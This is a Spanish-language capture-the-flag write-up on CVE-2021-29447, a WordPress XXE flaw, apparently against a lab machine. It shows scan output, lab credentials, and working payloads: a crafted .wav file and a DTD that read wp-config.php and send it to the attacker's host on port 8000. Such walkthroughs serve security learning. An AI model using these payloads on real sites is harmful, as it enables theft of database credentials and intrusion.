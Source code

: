 
# INTRO VULNERABILIDAD CVE-2021-29447
Se trata de una vulnerabilidad descrita en 2021 para WP en la cual se puede subir un fichero .wav (fichero de sonido) que a su vez solicite al servidor un fichero .dtd (Document Type Definition) que contiene un payload que nos permite ver ficheros internos, por ejemplo el fichero /etc/passwd o el fichero 
wp-config.php que contiene posiblemente datos confidenciales sobre la base de datos que utiliza WP (entre ellos credenciales). Las versiones vulnerables son aquellas inferiores a 5.7.1

# SCAN
```
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
3306/tcp open  mysql
```
# WPSCAN
```
[+] WordPress version 5.6.2 identified (Insecure, released on 2021-02-22).
 | Found By: Rss Generator (Passive Detection)
 |  - http://10.10.232.9/index.php/feed/, <generator>https://wordpress.org/?v=5.6.2</generator>
 |  - http://10.10.232.9/index.php/comments/feed/, <generator>https://wordpress.org/?v=5.6.2</generator>
 ```
 Como vemos la version (5.6.2) es inferior a la 5.7.1 y por tanto es vulnerable
 
 ```
 [i] User(s) Identified:

[+] Corporation Test
 | Found By: Rss Generator (Passive Detection)
```
Tambien vemos que encuentra un usuario, aunque el nombre no coincide completamente con el que nos da en la descripcion que es:
> test-corp:test

# PAYLOAD
Debemos crear dos ficheros:
1. Un fichero .wav que debe estar codificado en url y que a su ver solicita un fichero .dtd 
2. Un fichero .dtd (Document Type Description) que contiene el payload que nos permite leer el archivo

## Fichero .wav
```
RIFFWAVEiXML{<?xml version="1.0"?><!DOCTYPE ANY[<!ENTITY % remote SYSTEM 'http://10.11.62.57:8000/payload.dtd'>%remote;%init;%trick;]>
```

## Fichero .dtd
```
<!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=/var/www/html/wp-config.php">
<!ENTITY % init "<!ENTITY &#x25; trick SYSTEM 'http://10.11.62.57:8000/?p=%file;'>" >
```
El siguiente paso es crear un servidor local con:
1. $ python3 -m http.server
2. $ php -S 0.0.0.0: PORT

y despues desde el wp-admin cargar el fichero pay.wav. La respuesta esta codificada en base64 y hay que decodificarla
